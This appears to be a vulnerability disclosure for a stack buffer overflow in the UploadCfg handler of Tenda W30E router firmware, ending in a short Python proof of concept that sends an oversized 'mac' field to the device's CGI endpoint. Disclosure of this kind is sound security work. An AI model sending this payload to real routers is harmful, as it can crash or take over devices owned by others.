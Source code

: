 # Tenda W30E UploadCfg
### Overview
vendor: Tenda

product: W30E

version: <= V16.01.0.19(5037)

type: Stack Overflow

Firmware download address ： https://www.tenda.com.cn/material/show/648432375324741
### Vulnerability Description
Tenda W30E V16.01.0.19(5037) were discovered to contain a stack overflow in the UploadCfg function.
### Vulnerability details
Stack-based buffer overflow in function UploadCfg on Tenda W30E before V16.01.0.19(5037) devices allow remote attackers to cause a denial of service or remote code execution via a crafted parameter for the http post request.

In the function UploadCfg line 93, it reads in a user-provided parameter, and the variable v17 is passed to the _isoc99_sscanf function without any length check, which may overflow the stack-based buffer. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.

![](images/UploadCfg-1.png)
![](images/UploadCfg-2.png)

### POC
```python
import requests
ip = '192.168.0.1'
url = f'http://{ip}/cgi-bin/UploadCfg'
payload = {
    "mac": 'a' * 1000
}

res = requests.post(url=url, data=payload)
print(res.content)
```
